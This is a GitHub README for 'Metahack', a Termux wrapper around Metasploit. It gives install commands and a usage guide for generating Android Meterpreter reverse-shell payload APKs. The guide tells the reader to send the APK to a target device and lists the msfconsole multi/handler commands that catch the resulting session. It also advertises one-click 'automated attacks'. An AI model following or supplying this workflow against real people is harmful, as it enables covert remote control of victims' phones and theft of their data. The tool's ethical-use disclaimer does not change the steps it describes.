 #  Metahack - Advanced Metasploit Automation Tool  

![GitHub Repo stars](https://img.shields.io/github/stars/HYDRA-TERMUX/Metahack?style=for-the-badge)  
![GitHub forks](https://img.shields.io/github/forks/HYDRA-TERMUX/Metahack?style=for-the-badge)  
![GitHub issues](https://img.shields.io/github/issues/HYDRA-TERMUX/Metahack?style=for-the-badge)  
![GitHub license](https://img.shields.io/github/license/HYDRA-TERMUX/Metahack?style=for-the-badge)  

🚀 **Metahack** is a **powerful penetration testing tool** that automates Metasploit in Termux. It helps ethical hackers and cybersecurity professionals **generate payloads, automate exploits, and manage sessions easily**. Whether you’re a beginner or an expert, Metahack simplifies Metasploit usage and boosts efficiency.  

---

## 🚀 Features  

✅ **Automated Metasploit Setup** – No manual installation needed!  
✅ **One-Click Payload Generator** – Easily create payloads for Android, Windows, and Linux.  
✅ **Pre-Configured Exploits** – Execute common Metasploit exploits effortlessly.  
✅ **Session Management** – Monitor and control active Meterpreter sessions.   
✅ **User-Friendly Interface** – Simple CLI with guided steps.  

---

## 📌 Requirements  

Before using Metahack, ensure you have:  
- ✅ **Android device** with **Termux** installed.  
- ✅ At least **1GB of free storage**.  
- ✅ **Stable internet connection** for downloading dependencies.  
- ✅ Basic understanding of Metasploit Framework (MSF).  

---

## 🛠 Installation  

To install Metahack on Termux, run the following commands:  

```bash
pkg update && pkg upgrade -y  
pkg install git python curl -y  
git clone https://github.com/HYDRA-TERMUX/Metahack  
cd Metahack  
chmod +x metarun.sh  
bash metarun.sh 
```

After installation, launch the tool with:  

```bash
bash metarun.sh
```

🔹 **Metahack will handle Metasploit installation and setup automatically!**  

---

## 🎯 Usage Guide  

### 🔹 Generate an Android Payload  

1. Select **Payload Generator** from the main menu.  
2. Enter the target **LHOST (your IP address)**.  
3. Enter the **LPORT (listening port)**.  
4. The payload APK will be generated and saved in the `output` folder.  
5. Send the APK to the target device and start the listener in Metasploit:  

```bash
msfconsole -q  
use exploit/multi/handler  
set payload android/meterpreter/reverse_tcp  
set LHOST <Your-IP>  
set LPORT <Port>  
exploit  
```

### 🔹 Start Metasploit Console  

Metahack allows you to launch Metasploit directly:  

```bash
bash metarun.sh --msf
```

### 🔹 Automate Exploits  

Run pre-configured Metasploit scripts for automated attacks:  

```bash
bash metarun.sh --exploit android
```
✅ **One-Click Payload Generator**


---

## 📸 Screenshots  

> _(Add screenshots of Metahack in action for a more impressive look!)_  

---

## ⚠️ Legal Disclaimer  

🚨 **Warning!** Metahack is a tool for **ethical hacking, penetration testing, and educational purposes only**.  
🚫 Unauthorized access to devices, networks, or systems **without permission is illegal**.  
📜 The developer is **not responsible for any misuse or illegal activities** performed using this tool.  

---

## 💡 Contributing  

Want to improve Metahack? We welcome contributions!  

1. **Fork the repository** on GitHub.  
2. **Create a new branch** for your changes.  
3. **Make improvements** (bug fixes, features, etc.).  
4. **Submit a pull request** with a detailed explanation.  

---

## 📬 Contact & Support  

📩 **Developer:** [Your Contact Info]  
🐞 **Report Bugs:** Open an [issue](https://github.com/HYDRA-TERMUX/Metahack/issues).  
⭐ **Like this project?** Give it a **star** on GitHub!  

---

### 🚀 **Turn your Android into a powerful hacking machine with Metahack!**  

🔥 **[Download Now](https://github.com/HYDRA-TERMUX/Metahack)** 🔥  
